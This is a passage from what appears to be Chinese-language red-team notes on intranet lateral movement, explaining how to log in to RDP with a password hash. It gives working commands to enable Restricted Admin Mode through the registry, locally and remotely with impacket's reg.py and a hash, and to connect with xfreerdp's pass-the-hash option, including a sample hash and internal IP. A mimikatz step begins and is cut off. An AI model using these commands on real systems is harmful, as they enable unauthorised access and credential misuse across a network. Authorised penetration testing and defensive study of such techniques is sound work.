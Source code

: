 ![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%202.png)

更多的针对`RDP`协议的攻击手法可以看看[红蓝对抗中RDP协议的利用](https://www.geekby.site/2021/01/%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E4%B8%ADrdp%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8)。

## 利用Hash登录rdp远程桌面

在获取到的用户`Hash`无法破解的情况下，如果使用`Hash`远程登录`RDP`，需要开启`Restricted Admin Mode`（受限管理员模式，主要功能是使得凭据不会暴露在目标系统中），在`Windows 8.1`和`Windows Server 2012R2`上默认开启，在`Windows 7`和`Windows Server 2008 R2`上默认不支持，需要安装补丁`2871997`和`2973351`。

修改注册表方式利用，注册表位置在`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`。

```powershell
# 新建DWORD键值DisableRestrictedAdmin，值为0代表开启，值为1代表关闭
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f

# 查看是否已开启 DisableRestrictedAdmin，REG_DWORD 0x0存在就是开启
REG query "HKLM\System\CurrentControlSet\Control\Lsa" | findstr "DisableRestrictedAdmin"

# 使用impacket项目中的reg.py进行修改注册表
# 添加注册表项
python reg.py <domain>/<user>@<ip> -hashes :<hashe> add -keyName "HKLM\System\CurrentControlSet\Control\Lsa" -v "DisableRestrictedAdmin" -vt "REG_DWORD" -vd "0"

# 查看注册表项
python reg.py <domain>/<user>@<ip> -hashes :<hashe> add -keyName "HKLM\System\CurrentControlSet\Control\Lsa" -v "DisableRestrictedAdmin"

# 使用xfreerdp来连接rdp
xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:ip /cert-ignore
xfreerdp /u:Administrator /d:dar.com /pth:ac54ecea0c1d055abc1c7b3cfd960068 /v:172.77.4.100

# 使用mimikatz来pth
privilege::debug
```